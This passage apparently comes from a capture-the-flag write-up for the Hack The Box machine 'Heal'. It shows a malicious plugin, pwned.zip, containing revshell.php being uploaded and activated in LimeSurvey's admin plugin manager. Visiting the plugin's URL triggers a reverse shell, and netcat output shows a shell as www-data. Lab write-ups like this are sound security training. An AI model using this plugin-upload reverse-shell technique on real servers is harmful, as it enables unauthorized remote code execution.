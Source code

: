 Zipped both into a plugin package:
```bash
zip -r pwned.zip config.xml revshell.php
```

Then accessed the plugin manager at:
```
http://take-survey.heal.htb/index.php/admin/pluginmanager/sa/index
```
Used the **"Upload & Install"** button to upload the `pwned.zip` plugin.
<img src="lime_Survey_zip_upload.png" alt="Upload Plugin pwned" width="700"/>
After uploading, the plugin appeared in the plugin list and was manually **activated**.

<img src="lime_survey_active_pwned_plugin.png" alt="Active Plugin pwned" width="700"/>
Once active, the reverse shell script was executed by visiting: http://take-survey.heal.htb/upload/plugins/pwned/revshell.php
Established a reverse shell as `www-data`.
```bash
❯ nc -vlp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.23] from heal.htb [10.10.11.46] 55832
	bash: cannot set terminal process group (1007): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@heal:~/limesurvey/upload/plugins/pwned$ 
```

---
